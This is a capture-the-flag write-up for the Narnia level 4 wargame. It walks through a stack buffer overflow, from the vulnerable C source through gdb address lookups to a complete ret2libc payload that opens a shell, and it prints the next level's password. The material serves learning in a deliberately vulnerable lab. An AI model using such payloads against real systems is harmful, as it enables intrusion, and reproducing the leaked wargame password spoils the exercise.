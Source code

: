# narnia4
slopey112 - 3/6/19

Let's take a look at the binary and see what it does.
```
narnia4@narnia:/narnia$ ./narnia4
narnia4@narnia:/narnia$ ./narnia4 asdf
```
Huh. Nothing seems to happen. Let's take a look at the source code.
```c
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
    int i;
    char buffer[256];

    for(i = 0; environ[i] != NULL; i++)
        memset(environ[i], '\0', strlen(environ[i]));

    if(argc>1)
        strcpy(buffer,argv[1]);

    return 0;
}
```
Okay, so we get a pointer to the environment variables and they are all overwritten, preventing us from hiding shell code inside the environment variable. However, there are two key observations: 1) Once again, there is no check for bounds on `argv[1]`; 2), the use of `return`.

Given that the vulnerability is a buffer overflow vulnerability, we can simply do a ret2libc attack, just like we did in [narnia2](/narnia/narnia2).

Let's first try to find the offset. After trying a few different values, I find that the offset is 260, +4 for the saved EBP address.
```
Starting program: /narnia/narnia4 $(python -c "print 'A'*264")

Breakpoint 1, 0x0804852c in main ()
(gdb) x/20wx $ebp
0xffffd5b8:	0x41414141	0xf7e2a200	0x00000002	0xffffd654
0xffffd5c8:	0xffffd660	0x00000000	0x00000000	0x00000000
0xffffd5d8:	0xf7fc5000	0xf7ffdc0c	0xf7ffd000	0x00000000
0xffffd5e8:	0x00000002	0xf7fc5000	0x00000000	0x862b9a6b
0xffffd5f8:	0xbcc4967b	0x00000000	0x00000000	0x00000000
```
Now let's find the location of `system` and `/bin/sh`.
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e4c850 <system>
(gdb) find 0xf7e4c850, +9999999999, "/bin/sh"
0xf7f6ecc8
warning: Unable to access 16000 bytes of target memory at 0xf7fc8a50, halting search.
1 pattern found.
(gdb) x/s 0xf7f6ecc8
0xf7f6ecc8:	"/bin/sh"
```
Now that we have all the pieces, we can make our payload.
```
narnia4@narnia:/narnia$ ./narnia4 $(python -c "print 'A'*264+'\x50\xc8\xe4\xf7'+'BBBB'+'\xc8\xec\xf6\xf7'")
$ cat /etc/narnia_pass/narnia5
faimahchiy
```
